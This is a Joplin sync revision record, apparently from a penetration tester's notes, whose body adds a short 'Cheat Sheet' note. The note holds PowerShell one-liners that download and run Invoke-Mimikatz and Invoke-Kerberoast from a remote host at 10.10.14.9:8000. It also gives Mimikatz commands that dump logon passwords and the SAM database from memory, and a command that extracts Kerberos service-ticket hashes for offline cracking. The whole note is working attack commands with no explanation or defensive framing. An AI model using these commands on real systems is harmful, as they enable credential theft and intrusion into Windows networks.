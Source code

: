 id: 40ec7a7bac8e4be092c7f2f53408bc39
parent_id: 
item_type: 1
item_id: 47d7422e06d948c0ba7ec81fc6caab6d
item_updated_time: 1650426177410
title_diff: "[{\"diffs\":[[1,\"0. Cheat Sheet\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":14}]"
body_diff: "[{\"diffs\":[[1,\"# Remote Mimikatz\\\n\\\npowershell -nop \\\"IEX(New-Object System.Net.WebClient).downloadString('[http://10.10.14.9:8000/Invoke-Mimikatz.ps1](http://10.10.14.9:8000/ipw.ps1)')\\\"\\\n\\\nInvoke-Mimikatz -DumpCreds #Dump creds from memory\\\n\\\nInvoke-Mimikatz -Command '\\\"privilege::debug\\\" \\\"token::elevate\\\" \\\"sekurlsa::logonpasswords\\\" \\\"lsadump::sam\\\" \\\"exit\\\"'\\\n\\\n# Remote Kerberoast\\\n\\\npowershell -ep bypass \\\"IEX(New-Object System.Net.WebClient).downloadString('[http://10.10.14.9:8000/Invoke-Kerberoast.ps1](http://10.10.14.9:8000/ipw.ps1)') ; Invoke-Kerberoast -OutputFormat HashCat  | Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt\\\"\\\n\\\nklist\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":642}]"
metadata_diff: {"new":{"id":"47d7422e06d948c0ba7ec81fc6caab6d","parent_id":"ac0bd99a1a324cb6a297fd05a2b92039","latitude":"1.30360000","longitude":"103.85540000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-20T03:48:13.052Z
created_time: 2022-04-20T03:48:13.052Z
type_: 13